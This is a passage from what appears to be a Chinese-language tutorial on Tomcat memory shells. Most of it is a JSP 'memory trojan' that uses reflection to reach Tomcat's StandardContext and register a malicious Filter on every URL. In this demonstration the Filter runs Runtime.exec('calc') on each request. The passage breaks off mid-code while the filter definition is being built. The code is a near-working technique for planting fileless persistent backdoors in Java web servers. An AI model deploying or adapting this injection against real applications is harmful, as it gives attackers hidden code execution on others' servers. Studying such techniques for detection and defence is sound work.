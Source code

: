 6.  最终写的木马如下：
    ```jsp
    <%@ page import="javax.servlet.annotation.WebFilter" %>
    <%@ page import="java.io.IOException" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %>
    <%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
    <%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
    <%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
    <%@ page import="java.lang.reflect.InvocationTargetException" %>
    <%@ page import="javax.naming.NamingException" %>
    <%@ page import="java.lang.reflect.Constructor" %>
    <%@ page import="java.util.HashMap" %>
    <%@ page import="org.apache.catalina.Context" %><%--
      Created by IntelliJ IDEA.
      User: hasee
      Date: 2023/5/5
      Time: 9:58
      To change this template use File | Settings | File Templates.
    --%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Title</title>
    </head>
    <body>
    <%!
        @WebFilter(urlPatterns = "/*")
        public class MemoryTrojanFilter implements Filter {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
            }
    
            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                Runtime.getRuntime().exec("calc");
                chain.doFilter(request, response);
            }
    
            @Override
            public void destroy() {
            }
        }
    %>
    <%
        // 动态注册 Filter
        // 1. 获取 StandardContext
        ServletContext servletContext = request.getServletContext();
        // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
        Field applicationContextField = servletContext.getClass().getDeclaredField("context");
        applicationContextField.setAccessible(true);
        // 通过反射拿到 servletContext 具体的 ApplicationContext
        ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
        // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
        // 2. 向 standardContext 的 filterConfigs、filterDefs、filterMaps 中插入值
        // 2.1.1 先创建 filterDef
        FilterDef filterDef = new FilterDef();